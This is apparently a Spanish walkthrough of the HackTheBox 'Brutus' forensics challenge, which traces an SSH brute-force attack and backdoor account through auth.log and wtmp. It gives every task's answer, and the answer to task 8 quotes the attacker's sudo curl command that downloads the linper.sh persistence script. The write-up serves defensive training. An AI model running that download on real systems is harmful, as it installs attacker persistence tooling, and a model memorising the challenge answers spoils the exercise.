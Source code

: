 ```yaml
---
title: "Sherlock - Brutus - Español"
summary: "Sherlock de HackTheBox sobre inicios de sesión no autorizados en un servidor Confluence.
 Se proporcionan los archivos auth.log y wtmp para la investigación."
date: "Jan 15 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- Español
---
```



<SherlockBeginningTable  lang={LANG_ES} 
  data={[
    { content: `En este Sherlock de dificultad muy fácil, te familiarizarás con los registros auth.log y wtmp de Unix. 
    Exploraremos un escenario en el que un servidor de Confluence fue atacado por fuerza bruta a través de su servicio SSH. 
    Después de obtener acceso al servidor, el atacante realizó actividades adicionales, las cuales podemos rastrear utilizando auth.log. 
    Aunque auth.log se utiliza principalmente para el análisis de fuerza bruta, profundizaremos en todo el potencial de este artefacto en nuestra investigación, 
    incluyendo aspectos de escalada de privilegios, persistencia e incluso algo de visibilidad en la ejecución de comandos.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/blog/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_ES} 
    task_number="1" 
    task_content="Analizando el auth.log, ¿puedes identificar la dirección IP utilizada por el atacante para llevar a cabo un ataque de fuerza bruta?" 
    hint_content="Buscar palabras clave asociadas con intentos de fuerza bruta puede ayudar a identificar ataques potenciales." 
    answer="65.2.161.68"/>

- Podemos buscar por las palabras clave `Invalid user` para averiguar la IP del atacante con cualquiera de estos comandos: 

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- Los logs tienen este formato:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- Hay muchos intentos fallidos de inicio de sesión desde la IP 65.2.161.68 con cuentas de usuario que sugieren tener privilegios elevados (`admin`, `server_adm`, `svc_account` y `root`). Esa es la IP que buscamos.

---

<SherlockTask lang={LANG_ES} 
    task_number="2" 
    task_content="El ataque de fuerza bruta fue exitoso y el atacante ganó acceso a una cuenta en el servidor. ¿Cuál es el nombre de esa cuenta?" 
    hint_content="Busca por palabras clave que indiquen un intento de inicio de sesión válido para identificar la cuenta comprometida." 
    answer="root"/>

- Echando un vistazo al archivo `auth.log` se puede ver que se ha ganado acceso con el usuario `root` desde la IP 65.2.161.68, que es la IP del atacante como hemos dicho anteriormente.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- Aunque podemos filtar por las palabras clave `Accepted password`:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="3" 
    task_content="¿Puedes identificar el timestamp correspondiente a cuando el atacante inició sesión manualmente en el servidor para llevar a cabo sus objetivos?" 
    hint_content="Es importante señalar que el primer inicio de sesión exitoso por parte del atacante fue el resultado de un intento de fuerza bruta automatizado, 
    y la sesión se cerró dentro del mismo segundo en que se estableció. Después de obtener las credenciales válidas, el atacante inició sesión manualmente, y 
    necesitamos identificar ese inicio de sesión. Utiliza el artefacto wtmp para ver el tiempo de inicio de sesión de la sesión activa y correlacionarlo con auth.log." 
    answer="2024-03-06 06:32:45"/>

- Debido a que en `auth.log` el timestamp tiene este formato `Month Day HH:mm:SS` y el formato que se pide es `YYYY-MM-DD HH:mm:SS` tenemos que buscar en el archivo `wtmp`.
- Con este comando se ven todos inicios de sesion en ese archivo:

<CodeBlock code={"utmpdump wtmp"}/>
    
- Pero podemos filtrar por el nombre de usuario con el que el atacante ganó acceso, que en este caso es lo que nos interesa:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_3.png"/>

- Se puede apreciar que en la última línea se encuentra el inicio de sesión de la IP 65.2.161.68 con un formato similar a `YYYY-MM-DD HH:mm:SS`. Ahí está nuestra respuesta.

---

<SherlockTask lang={LANG_ES} 
    task_number="4" 
    task_content="Los inicio de sesión SSH se rastrean y se les asigna un número al iniciar sesión. ¿Cuál es el número de sesión asignado a la sesión del atacante para la cuenta de usuario de la pregunta 2?" 
    hint_content="Se asigna un número de sesión de forma automática inmediatamente después de que la contraseña sea aceptada." 
    answer="37"/>

- Teniendo en cuenta el timestamp anterior podemos buscar en `auth.log` cerca de esa hora.
- Buscamos por esa hora y esos minutos (aunque también podríamos buscar por el usuario `root`):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_4.png"/>

- Vemos que un segundo antes (06:32:44) se le asigna el número 37 a la sesión del usuario `root`.

---

<SherlockTask lang={LANG_ES} 
    task_number="5" 
    task_content="El atacante agregó un nuevo usuario como parte de su estrategia de persistencia en el servidor y le otorgó a esta nueva cuenta de usuario privilegios elevados. ¿Cuál es el nombre de esta cuenta?" 
    hint_content="Auth.log también rastrea cambios relacionados con usuarios y grupos en el servidor. Busca palabras clave que indiquen adiciones de usuarios o asignaciones de privilegios." 
    answer="cyberjunkie"/>

- Revisando el archivo `auth.log` nos damos cuenta que, tras ganar acceso, el atacante crea un nuevo usuario con el nombre `cyberjunkie`, a través del comando `useradd`, con la finalidad de mantener acceso persistente en el sistema (crear una puerta trasera):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="6" 
    task_content="¿Cuál es el ID de la sub-técnica de MITRE ATT&CK utilizado para la persistencia al crear una nueva cuenta?" 
    hint_content="Si has encontrado la respuesta a la pregunta 5, consulta la `MITRE ATT&CK enterprise matrix` para determinar el ID de sub-técnica bajo la táctica de persistencia." 
    answer="T1136.001"/>

- Para ello vamos a la URL https://attack.mitre.org y buscamos en **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_ES} 
    task_number="7" 
    task_content="¿A qué hora terminó la primera sesión SSH del atacante según auth.log?" 
    answer="2024-03-06 06:37:24"/>

- Conociendo el número de sesión SSH, podemos filtrar por él de esta forma:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_7.png"/>

- La segunda línea indica la hora en que se cerró la sesión, con el estado `Removed session 37`.

---

<SherlockTask lang={LANG_ES} 
    task_number="8" 
    task_content="El atacante inició sesión en la cuenta que creó como puerta trasera y utilizó sus privilegios más altos para descargar un script. ¿Cuál es el comando completo ejecutado usando sudo?" 
    hint_content='Aunque auth.log no se utiliza típicamente para rastrear ejecuciones de comandos como auditd, los comandos ejecutados con sudo se registran en auth.log, ya que el sistema necesita autenticar los privilegios de la cuenta para otorgar permisos de nivel root para ese comando. Busca la palabra clave "COMMAND" para encontrar los comandos ejecutados usando sudo.'
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- El sistema necesita autenticar la cuenta para dar permisos de administrador a los comandos ejecutados con `sudo`, con lo cual quedarían registrados en `auth.log`, tal y como dice la pista. Podemos filtrar por:
    
<CodeBlock code={"cat auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_8.png"/>   

- Una de las líneas nos muestra que se ejecutó el comando `curl` y la URL del script que se descargó el atacante.

---

<SherlockFinalContent lang={LANG_ES}/>
